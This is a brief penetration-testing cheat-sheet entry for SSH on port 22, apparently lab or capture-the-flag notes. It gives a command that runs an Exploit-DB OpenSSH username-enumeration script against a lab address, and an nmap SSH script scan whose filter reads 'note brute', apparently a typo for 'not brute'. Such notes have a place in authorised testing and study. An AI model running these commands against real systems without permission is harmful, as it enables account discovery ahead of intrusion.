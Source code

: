 # T:22 - SSH

### [OpenSSH 2.3 &lt; 7.7 - Username Enumeration](https://www.exploit-db.com/exploits/45233)

`python openssh_username_enum.py --port 22 --userList ssh_list.txt --outputFile ssh_enum_results.txt 10.10.10.55`

#### Nmap nse script

```text
nmap -sV --script="ssh* and note brute" -p22 <target-ip> -oN ssh_script_scan.nmap
```



